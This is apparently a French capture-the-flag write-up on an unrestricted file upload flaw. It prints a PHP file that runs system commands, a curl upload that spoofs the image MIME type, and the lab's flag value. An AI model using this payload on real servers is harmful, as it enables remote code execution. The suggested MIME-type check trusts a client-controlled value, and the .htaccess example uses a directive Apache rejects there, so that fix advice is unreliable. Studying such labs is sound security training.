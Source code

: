 ## Phase 1 : Découverte de la faille

### Analyse initiale
En analysant le site web, nous avons découvert une page d'upload accessible à l'adresse suivante :
```
http://10.14.200.61/?page=upload
```

Cette page contient un formulaire HTML permettant d'uploader des fichiers. Voici le code HTML du formulaire trouvé dans la page :

```html
<form enctype="multipart/form-data" action="#" method="POST">
    <input type="hidden" name="MAX_FILE_SIZE" value="100000" />
    Choose an image to upload:
    <br />
    <input name="uploaded" type="file" /><br />
    <br />
    <input type="submit" name="Upload" value="Upload">
</form>
```

### Points importants observés :
1. **Champ `uploaded`** : Ce champ permet de sélectionner un fichier à uploader.
2. **Champ `Upload`** : Ce champ est un bouton de soumission qui envoie la requête POST.
3. **Absence de validation côté client** : Aucun mécanisme JavaScript ou HTML ne semble limiter les types de fichiers pouvant être uploadés.

### Hypothèse
Le serveur pourrait accepter des fichiers malveillants (comme des scripts PHP) déguisés en fichiers légitimes (par exemple, des images). Si ces fichiers sont exécutés après l'upload, cela pourrait permettre d'exécuter du code arbitraire sur le serveur.

---

## Phase 2 : Exploitation de la faille

### Étape 1 : Création d'un fichier PHP malveillant
Nous avons créé un fichier PHP nommé malicious.php contenant le code suivant :

```php
<?php
// Recherche la chaîne 'The flag is :' dans tous les fichiers accessibles
system("grep 'The flag is :' / -R 2>/dev/null");
echo "hello";
?>
```

#### Explication du code :
- **`system("grep 'The flag is :' / -R 2>/dev/null");`** :
  - Cette commande exécute `grep` pour rechercher la chaîne `"The flag is : "` dans tous les fichiers accessibles sur le serveur.
  - L'option `-R` effectue une recherche récursive dans tous les répertoires.
  - `2>/dev/null` redirige les erreurs vers null pour éviter d'afficher des messages d'erreur.
- **`echo "hello";`** :
  - Affiche un message simple pour confirmer que le script a été exécuté.

---

### Étape 2 : Envoi du fichier avec `curl`
Nous avons utilisé la commande suivante pour uploader le fichier malveillant :

```bash
curl -i -X POST -F Upload=Upload -F "uploaded=@./malicious.php;type=image/jpg" "http://10.14.200.61/?page=upload" | grep flag
```

#### Explication de la commande :
- **`-i`** : Inclut les en-têtes HTTP dans la réponse pour vérifier si l'upload a réussi.
- **`-X POST`** : Spécifie que la requête est une requête POST.
- **`-F Upload=Upload`** : Simule le clic sur le bouton de soumission du formulaire.
- **`-F "uploaded=@./malicious.php;type=image/jpg"`** :
  - Envoie le fichier malicious.php dans le champ `uploaded`.
  - Définit le type MIME comme `image/jpg` pour contourner les éventuelles validations côté serveur.
- **`"http://10.14.200.61/?page=upload"`** : URL de la page d'upload.
- **`| grep flag`** : Filtre la réponse pour afficher uniquement les lignes contenant le mot `flag`.

---

### Étape 3 : Résultat
Après avoir exécuté la commande, le serveur a accepté le fichier et l'a exécuté. La commande `grep` dans le fichier PHP a permis de localiser et d'afficher un flag présent sur le serveur.

---

## Phase 3 : Problèmes engendrés par cette faille

### Conséquences possibles
1. **Exécution de code arbitraire** :
   - Un attaquant peut exécuter des commandes système sur le serveur, ce qui peut compromettre l'intégrité et la sécurité du système.
   - Par exemple, il pourrait lire des fichiers sensibles comme passwd ou installer un backdoor.

2. **Vol de données sensibles** :
   - Si des fichiers contenant des informations sensibles (comme des mots de passe ou des clés API) sont accessibles, un attaquant peut les exfiltrer.

3. **Déni de service (DoS)** :
   - Un attaquant pourrait uploader un script qui consomme beaucoup de ressources, provoquant un crash du serveur.

4. **Escalade de privilèges** :
   - Si le serveur exécute le script avec des privilèges élevés, un attaquant pourrait prendre le contrôle total du système.

---

## Phase 4 : Comment corriger la faille

### 1. **Limiter les types de fichiers acceptés**
   - Vérifiez le type MIME et l'extension des fichiers uploadés côté serveur.
   - Par exemple, acceptez uniquement les fichiers images (`image/jpeg`, `image/png`) :
     ```php
     $allowed_types = ['image/jpeg', 'image/png'];
     if (!in_array($_FILES['uploaded']['type'], $allowed_types)) {
         die("Invalid file type.");
     }
     ```

### 2. **Renommer les fichiers uploadés**
   - Renommez les fichiers uploadés pour empêcher l'exécution de scripts malveillants :
     ```php
     $new_name = uniqid() . '.jpg';
     move_uploaded_file($_FILES['uploaded']['tmp_name'], "/uploads/" . $new_name);
     ```

### 3. **Désactiver l'exécution dans le répertoire d'upload**
   - Configurez le serveur pour empêcher l'exécution de fichiers dans le répertoire d'upload.
   - Exemple pour Apache (`.htaccess`) :
     ```
     <Directory "/path/to/uploads">
         php_flag engine off
     </Directory>
     ```

### 4. **Valider les entrées utilisateur**
   - Vérifiez toutes les entrées utilisateur pour éviter les injections ou les manipulations.

### 5. **Limiter les permissions du serveur**
   - Exécutez le serveur avec un utilisateur ayant des permissions minimales pour limiter les dégâts en cas de compromission.

---

## Conclusion
Cette faille d'upload de fichier est une vulnérabilité critique qui peut être exploitée pour exécuter du code arbitraire sur le serveur. En suivant les bonnes pratiques de sécurité (validation des fichiers, désactivation de l'exécution dans les répertoires d'upload, etc.), vous pouvez protéger votre application contre ce type d'attaque.

---

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
